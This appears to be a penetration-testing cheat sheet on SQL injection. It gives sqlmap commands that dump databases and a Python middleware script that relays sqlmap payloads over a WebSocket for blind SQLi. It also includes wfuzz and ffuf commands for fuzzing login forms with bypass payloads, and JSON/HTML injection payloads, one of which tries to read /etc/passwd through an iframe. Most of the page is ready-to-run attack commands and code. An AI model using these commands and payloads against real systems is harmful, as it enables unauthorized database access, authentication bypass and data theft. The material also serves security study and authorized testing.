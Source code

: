 # SQL Injection

<details>

<summary>Table of Content</summary>



</details>

## SQLMaps

SQLMap can be used to detect SQL Injection.

```bash
sqlmap -u "http://<URL>/" --batch --dump --forms
```

### SQLMap Level

* level 1: By default
* level 2: Test HTTP Cookie header
* level 3: Test HTTP User-Agent/Referer headers

### Automating Blind SQL injection over WebSocket with SQLMap

Here is a script that allows blind SQL Injection using SQLMap. It start a middleware server that basically:&#x20;

* Format the payload if needed (for example wrap it in a JSON format)
* Create a WebSocket connection to actual target, receive response and extract any token if needed.
* Send SQLi payload and receive Output from WebSocket.
* Display the output as response

{% code lineNumbers="true" %}
```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://localhost:8156/ws"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"employeeID":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```
{% endcode %}

Start the server then run SQLMap with the port set on the script.

```bash
sqlmap -u "http://localhost:8081/?id=1" --batch --dbs
```

> More information at [https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html)

### SQLmap Cheatsheet

> Hacktricks: [https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap)

## Login forms

Techniques and tools used to bypass login forms using SQL Injection. The wordlist can be found [here](../../../SQL\_Injection/files/sqli\_login\_form.txt). It is taken from HackTricks.

> **SQL Login Bypass**&#x20;
>
> [Hacktricks ](https://book.hacktricks.xyz/pentesting-web/login-bypass)
>
> [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass)

> **NoSQL Login Bypass**&#x20;
>
> [Hacktricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass)

**Using wfuzz**

Keyword `FUZZ` is used to determine the parameter that will be used.

```bash
wfuzz -c -z file,sqli.req -d "username=FUZZ&password=pass" -u "http://<IP>/login"
```

Useful options

* `-H`: Used to set custom header
* `--hc/hl/hw/hh`: Hide responses with the specified code/lines/words/chars
* `--sc/sl/sw/sh`: Show responses with the specified code/lines/words/chars
* `-d`: request datas

**Using ffuf**

```bash
ffuf -u http://<URL>/login -c -w sqli.req -X POST -d 'username=adminFUZZ&password=admin' -H 'Content-Type: application/x-www-form-urlencoded'
```

Useful options

* `-H`: Used to set custom header
* `-d`: request datas

**Using SQLmap**

Load a file with `-r` option.

```bash
sqlmap -r sqli.req -u "http://<URL>/login" --data "username=admin&password=pass"
```

### Json injection

1. Replace content-type: `Content-Type: application/json`
2. Send json payload: https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass

## Any forms

### Json injection

```bash
"user":"<a href='http\\\\:someurl.com'>ACTIVATE USER HERE</a>"
"user":"<img src=https\\://dummyimage.com/200x200/ff00d5&text=HAHAHA/>"
"title":"<iframe src=file:///ect/passwd height=800px width=600px></iframe>"
```

> **JSON Injection:** [https://lisandre.com/archives/2286](https://lisandre.com/archives/2286)
